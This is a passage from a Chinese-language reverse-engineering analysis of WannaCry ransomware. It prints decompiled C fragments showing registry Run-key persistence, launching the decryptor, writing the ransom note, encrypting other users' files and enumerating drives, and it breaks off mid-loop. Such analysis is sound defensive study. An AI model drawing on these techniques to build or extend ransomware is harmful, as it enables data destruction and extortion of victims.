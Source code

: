 ```c
SetRegRun((int)&Buffer);                // 设置注册表启动项  
```

该函数每隔三秒启动taskse.exe 和 @WanaDecryptor@.exe 然后利用 CMD
设置注册表启动项为 tasksche.exe 的绝对地址

### 6.3.3 RepeatOperation 重复操作

```c
if ( GetFileAttributesA(aFWnry) == -1 )       // 检测f.wnry是否存在  

sub_100018F0(&Parameter, 10, 100);  

if ( !CurrentTime )  

{  

CurrentTime = time(0);  

CreateRes();                                // 写入0x8个字节到00000000.res  

sprintf(&Dest, aSFi, NewFileName);          // @WanaDecryptor@.exe fi  

StartTargetFile(&Dest, 0x186A0u, 0);  

ReadFileToMem(&c_wnryBase, 1);  

}  

RunBat();                                     // 创建并启动批处理脚本  

CreateReadMe();                               // 创建@Please_Read_Me@.txt  

EncryptOtherUsersFiles((int)&Parameter);      // 加密windows剩余所有用户的文件 
```

该函数有三个重要的函数，就不展开分析了，我在这里将把他们的逻辑表述清楚

1.  RunBat():判断@WanaDecryptor@.exe.lnk是否存在，如果不存在就创建一个批处理脚本，将命令写入.bat脚本脚本作用为给@WanaDecryptor@.exe创建快捷方式）
    
2.  CreateReadMe():检测工作路径下是否存在 ReadMe不存在就从r.wnry中读取内容并写入 ReadMe
    
3.  EncryptOtherUsersFiles():获取Windows所有的用户名，判断是否与当前的有户名相同，不同就加密该用户的所有文件

## 7 taskdle.exe 病毒辅助文件分析 

```c
dwDrives = GetLogicalDrives();                // 获取系统中所有的磁盘  

v5 = 0x19;  

do  

{  

*(_DWORD *)RootPathName = dword_403060;  

v8 = dword_403064;  

RootPathName[0] = v5 + 65;  

if ( (dwDrives >> v5) & 1 && GetDriveTypeW(RootPathName) != 4 )//获取D盘类型  

{  

```